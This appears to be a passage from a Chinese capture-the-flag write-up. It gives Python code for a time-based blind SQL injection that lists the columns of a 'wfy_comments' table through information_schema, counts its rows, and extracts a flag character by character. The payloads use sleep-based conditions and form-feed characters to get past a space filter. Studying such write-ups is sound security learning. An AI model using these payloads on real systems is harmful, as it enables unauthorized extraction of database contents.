 猜想 `wfy_comments` 为储存具体数据的表。查找其列名：

```python
column_name = []
column_num = test_int(
    0, 10, "if((select(count(column_name))from(information_schema.columns)where(table_name='wfy_comments'))={},sleep(1),1)")
for i in range(0, column_num):
    # 查找列i名称的长度
    len = test_int(
        1, 30,
        "if((select(length(column_name))from(information_schema.columns)where(table_name='wfy_comments')limit\x0C"+str(i)+",1)={},sleep(1),1)")
    if len == None:
        continue
    # 查找列i的名称
    column_name.append(loop_str(
        1, len+1,
        "if(substr((select(column_name)from(information_schema.columns)where(table_name='wfy_comments')limit\x0C" +
        str(i)+",1),{},1)='{}',sleep(1),1)",
        log_result=True, log=True))
print(column_name)
```

输出结果即为列名：

```python
['id', 'text', 'user', 'name', 'display']
```

猜想 `text` 为储存数据的列。先获取列的字段个数：

```python
num = test_int(0, 200, "if((select(count(text))from(wfy.wfy_comments))={},sleep(1),1)")
print(num)
```

得到字段个数为 `12`.

查找 flag：

```python
flag = []
for i in range(num):
    passed = test_pass("if(substr((select(user)from(wfy.wfy_comments)limit\x0C"+str(i)+",1),1,1)='f',sleep(1),1)")
    if passed:
        len = test_int(0, 100, "if((select(length(user))from(wfy.wfy_comments)limit\x0C"+str(i)+",1)={},sleep(1),1)")
        if len == None:
            continue
        text = loop_str(
            1, len+1, "if(substr((select(user)from(wfy.wfy_comments)limit\x0C"+str(i)+",1),{},1)='{}',sleep(1),1)", log_result=True, log=True)
        print(text)
        flag.append(text)
print(flag)
```
